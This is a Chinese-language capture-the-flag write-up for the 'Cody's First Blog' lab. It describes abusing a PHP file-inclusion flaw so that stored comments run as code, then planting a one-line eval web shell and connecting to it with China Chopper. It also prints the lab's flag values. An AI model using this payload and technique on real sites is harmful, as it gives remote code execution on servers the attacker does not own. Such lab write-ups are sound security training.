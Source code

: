 # Cody's First Blog



运用到文件包含漏洞的使用，以及PHP伪协议的知识。

### Flag1

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)

提交评论得到第一个flag（这里提交的内容包含&lt;?php都会弹出flag）

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)

**Flag1：**

**^FLAG^70fb6cb5f09fce5fb32c79e83f932dd7325e72bca4a060cd2da8c632dd838a58$FLAG$**

响应包有提到评论需要审核

回到首页，查看源代码发现如下注释：

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image006.jpg)

&lt;a href="?page=admin.auth.inc"&gt;Admin login&lt;/a&gt;

跟过去

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image008.jpg)

是一个管理员的登录入口，先把他丢到burpsuit里面爆破，然后继续寻找线索（爆破了一个小时什么也没有，应该是烟雾弹）

### Flag2

注意到：http://35.196.135.216:5001/d48c38814d/?page=admin.auth.inc

我们对page参数进行修改一下看看

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image010.jpg)

显然这是一个文件包含了，那思路就逐渐清晰，先扫一波存在的文件\(分析结构应该为xx.inc.php文件，这里并不能跨目录包含，已经限制了文件包含的路径\)源代码已经强制在后面添加了.php后缀。（这里方便筛选，包含成功的不会出现字符串Warning，这一条件可以作为筛选项）

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image012.jpg)

得到的结果大概就这三个。

访问一下admin.inc这个页面

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image014.jpg)

页面最底下有一个flag

^FLAG^3b3811daa28ae899032343b43e155238cdf7ae8c921f78d0494813a3dcad0e5c$FLAG$

不仅如此，注意到上面有确认评论的选项，尝试确认一下评论。

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image015.png)

回到主页我们惊喜的发现，评论插进了主页，这里就有一个骚思路了，那就是对index文件进行包含，从而达到插入的命令以PHP语句来执行。

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image017.jpg)

### Flag3

插入&lt;?php phpinfo\(\); ?&gt;，并且确认评论

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image019.jpg)

虽然在页面上没有看到我们插入的内容，但是我们尝试用php伪协议

**PHP伪协议**

PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen\(\)、 copy\(\)、 file\_exists\(\) 和 filesize\(\) 的文件系统函数。 除了这些封装协议，还能通过 stream\_wrapper\_register\(\) 来注册自定义的封装协议。

https://www.cnblogs.com/lgf01010/p/9595391.html

**目录**

[![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image021.jpg "目录")](http://image.3001.net/images/20180827/1535362079_5b83c41fbe910.png)

URL如下：

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image023.jpg)

我们惊喜的发现，插入的PHP代码被解析并且执行了。

下面就是直接插入一句话

&lt;?php @eval\($\_POST\['cmd'\]\); ?&gt;

前往admin.inc确认评论

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image025.jpg)

然后直接用菜刀连接

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image027.jpg)

最后一个flag在index.php注释里面

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image029.jpg)

^FLAG^7c0e45cb6dbb53a134e5627e432a2a660192cdf3fe1dcf5e06b91886594e35e4$FLAG$

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image031.jpg)

自此全部完成



